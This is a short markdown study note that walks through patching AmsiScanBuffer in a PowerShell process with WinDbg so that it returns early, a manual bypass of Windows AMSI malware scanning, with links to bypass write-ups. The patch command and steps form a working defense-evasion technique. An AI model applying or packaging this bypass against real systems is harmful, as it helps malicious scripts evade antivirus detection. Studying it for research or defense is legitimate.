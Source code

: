 
### Windbg Commands

| Command   | Description                                                       |
| --------- | ----------------------------------------------------------------- |
| x         | examine all symbols that match a given string (eg `x amsi!Amsi*`) |
| bg        | set a break point                                                 |
| g         | let process continue                                              |
| r         | dump resister                                                     |
| r r\<reg> | dump a particular register value                                  |
| u         | unassemble (go to that memory address)                            |

### Analyzing AmsiScanBuffer

```c
HRESULT AmsiScanBuffer(
  HAMSICONTEXT amsiContext,
  PVOID buffer,
  ULONG length,
  LPCWSTR contentName,
  HAMSISESSION amsiSession,
  AMSI_RESULT *result
);
```

- launch Powershell window
- launch Windbg
- attach Windbg to Powershell session
- in Windbg set a break point for AmsiScanBuffer
```cmd
bp Amsi!AmsiScanBuffer
```
- allow the powershell interactivity to continue using `g` in Windbg
- on the powershell cmd line, type `'amsituils` to trigger AMSI
```powershell
'amsiutils'
```
![](Images/WindbgContinue.png)
- find the return instruction is c3
- ![](Images/WindbgAmsiScanBufferLocation.png)
- ![](Images/WindbgAmsiScanBufferCalls.png)
- apparently we want to overwrite the address highlighted in gray (TODO: figure out why exactly)
- in Windbg `u 00007ffd72e9387b` to move to that address
- ![](Images/WindbgUnassemble.png)
- overwrite with this command `eb 00007ffd72e9387b c3 90 90` (90 are nop)
- ![](Images/WindbgUnassemble-02.png)
- now that address is altered to `ret` instead of `mov edi,r8d`

### Websites viewed for reference

- https://thalpius.com/2021/10/14/microsoft-windows-antimalware-scan-interface-bypasses/
- https://www.rewterz.com/blog/how-i-bypassed-amsi-statically-using-windbg
- https://rxored.github.io/post/csharploader/bypassing-amsi-with-csharp/#amsiscanbuffer
- https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b
- http://windbg.info/doc/1-common-cmds.html
